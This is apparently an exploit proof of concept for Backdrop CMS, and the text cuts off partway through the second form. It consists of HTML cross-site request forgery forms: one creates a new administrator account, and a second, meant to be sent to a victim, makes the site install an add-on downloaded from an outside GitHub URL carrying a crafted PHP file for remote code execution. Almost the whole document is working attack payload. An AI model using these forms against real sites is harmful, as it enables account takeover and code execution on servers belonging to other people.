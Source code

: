 # Description: Backdrop CMS suffers from an Cross-site Request Forgery Vulnerability allowing Remote Attackers to add new user with Admin powers.
# Description: Backdrop CMS suffers from an Cross-site Request Forgery Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously add-on with crafted PHP file.

<html>
<body>
	<form method="POST" action="http://example.com/backdrop/?q=admin/people/create">
		<input type="text" name="q" value="admin/people/create">
		<input type="text" name="SESSaca5a63f4c2fc739381fab7741d68783" value="4IVp_-QA9bzSPmMyXalKTNS3BNFTQnxJTw8t93Gi6c8">
		<input type="text" name="name" value="hacker">
		<input type="text" name="mail" value="hacker@hacker.com">
		<input type="text" name="notify" value="1">
		<input type="text" name="pass" value="admin">
		<input type="text" name="form_build_id" value="form-fPIKc40E3Yp2JOBgAd6gFbMJFsihncTANLNRWwPRWIY">
		<input type="text" name="form_token" value="AtrGRG9-8zS8-GoKbYL3niPjqnZP2zTirEqB4E_kS9I">
		<input type="text" name="form_id" value="user_register_form">
		<input type="text" name="status" value="1">
		<input type="text" name="roles[administrator]" value="administrator">
		<input type="text" name="op" value="Create new account">
		<input type="submit" value="Send">
	</form>
</body>
</html>

# Step 1
# Send this page below to the victim

<html>
<body>
        <form method="POST" action="http://example.com/backdrop/?q=system/ajax">
                <input type="text" name="q" value="system/ajax">
                <input type="text" name="Backdrop.tableDrag.showWeight" value="0">
                <input type="text" name="SESSaca5a63f4c2fc739381fab7741d68783" value="4IVp_-QA9bzSPmMyXalKTNS3BNFTQnxJTw8t93Gi6c8">
                <input type="text" name="bulk" value="">
                <input type="text" name="project_url" value="https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/download/backdrop/reference.tar">
                <input type="text" name="files[project_upload]" value="">
                <input type="text" name="form_build_id" value="form-p-BrvXTDPqUhhAatHFr4d_dQKt6Dn5d-mIf4hwFyuJA">
                <input type="text" name="form_token" value="aYigpmZz3OXNHnjJTO2Tu43IXMKyrMXvB2yL-4NFbTw">
                <input type="text" name="form_id" value="installer_manager_install_form">
                <input type="text" name="_triggering_element_name" value="op">
                <input type="text" name="_triggering_element_value" value="Install">
                <input type="text" name="ajax_html_ids[]" value="skip-link">
                <input type="text" name="ajax_html_ids[]" value="main-content">
                <input type="text" name="ajax_html_ids[]" value="installer-browser-filters-form">
                <input type="text" name="ajax_html_ids[]" value="edit-search-text">
                <input type="text" name="ajax_html_ids[]" value="edit-submit">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-link">
                <input type="text" name="ajax_html_ids[]" value="add-to-queue-link-bootstrap_lite">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">